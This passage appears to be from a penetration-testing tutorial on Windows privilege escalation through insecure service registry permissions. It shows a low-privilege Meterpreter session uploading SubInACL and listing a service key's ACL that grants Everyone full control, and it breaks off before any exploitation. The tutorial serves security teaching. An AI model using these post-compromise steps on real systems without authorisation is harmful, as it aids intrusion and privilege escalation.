 ```
You know, Windows services run as SYSTEM. So, their folders, files and registry keys must be protected with strong access controls. In some cases, we encounter services that are not sufficiently protected.
### Insecure Registry Permissions
In Windows, information related with services is stored in ```HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services``` registry key. If we want to see information about our “Vulnerable Service” we should check ```HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service``` key.
![vulnerable privileges](../pictures/vulnerable-privileges.png)
Of course our Vulnerable Service have some weaknesses. 🙂
![more vulnerable privs](../pictures/vulnerable-privileges-2.png)
But the point is, how can we check these permissions from command line? Let’s start the scenario from the beginning. You have gotten a low-priv Meterpreter session and you want to check permissions of a service.
```
meterpreter > getuid
Server username: TARGETMACHINE\testuser
```
You can use SubInACL tool to check registry keys permissions. You can download it here but the point you need to be aware of it deployed as an msi file. If ```AlwaysInstallElevated``` policy setting is not enabled on target machine you can’t install msi files with low-priv user.(We will discuss ```AlwaysInstallElevated``` policy later in this post) And of course you may do not want to install a new software to the target machine.
I recommend you to install it an virtual machine and find subinacl.exe file in C:\Program Files (x86)\Windows Resource Kits\Tools\. It will work smoothly without having to install msi file.
Let’s upload SubInACL tool to our target.
```
meterpreter > cd %temp%
meterpreter > pwd
C:\Users\testuser\AppData\Local\Temp
meterpreter > upload -f subinacl.exe
[*] uploading  : subinacl.exe -> subinacl.exe
[*] uploaded   : subinacl.exe -> subinacl.exe
meterpreter >
```
Now SubInACL tool ready to use. Let’s check permissions for ```HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service```.
```
meterpreter > shell
Process 2196 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\AppData\Local\Temp>subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
SeSecurityPrivilege : Access is denied.
WARNING :Unable to set SeSecurityPrivilege privilege. This privilege may be required. 
================================================================================
+KeyReg HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service
================================================================================
/control=0x400 SE_DACL_AUTO_INHERITED-0x0400 
/owner             =builtin\administrators
/primary group     =system
/perm. ace count   =10
/pace =everyone   ACCESS_ALLOWED_ACE_TYPE-0x0
  CONTAINER_INHERIT_ACE-0x2      
    Key and SubKey - Type of Access:
  Full Control
    Detailed Access Flags :
  KEY_QUERY_VALUE-0x1        KEY_SET_VALUE-0x2          KEY_CREATE_SUB_KEY-0x4     
  KEY_ENUMERATE_SUB_KEYS-0x8 KEY_NOTIFY-0x10            KEY_CREATE_LINK-0x20       DELETE-0x10000             
  READ_CONTROL-0x20000       WRITE_DAC-0x40000          WRITE_OWNER-0x80000        
.